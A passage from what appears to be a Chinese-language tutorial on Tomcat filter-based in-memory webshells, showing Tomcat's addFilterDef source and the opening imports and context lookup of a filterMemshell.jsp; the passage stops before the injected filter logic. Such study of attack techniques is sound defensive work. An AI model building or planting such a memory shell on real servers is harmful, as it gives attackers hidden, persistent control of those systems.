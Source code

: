 [![](assets/1701606655-68a0ed220d514987bd5548f25515e62f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231111135009-2ca9320e-8056-1.png)  
**filterDefs**  
在StandardContext中添加filterDef的方法

```plain
@Override
public void addFilterDef(FilterDef filterDef) {

    synchronized (filterDefs) {
        filterDefs.put(filterDef.getFilterName(), filterDef);
    }
    fireContainerEvent("addFilterDef", filterDef);

}
```

而filterDefs是从配置文件中解析得来的

### 4.4 Filter内存马

filterMemshell.jsp:

```plain
<%--
Created by IntelliJ IDEA.
User: Dili
Date: 2023/9/18
Time: 16:30
To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%
try {
    // 获取应用程序上下文对象(ApplicationContextFacade)
    ServletContext servletContext = request.getSession().getServletContext();

```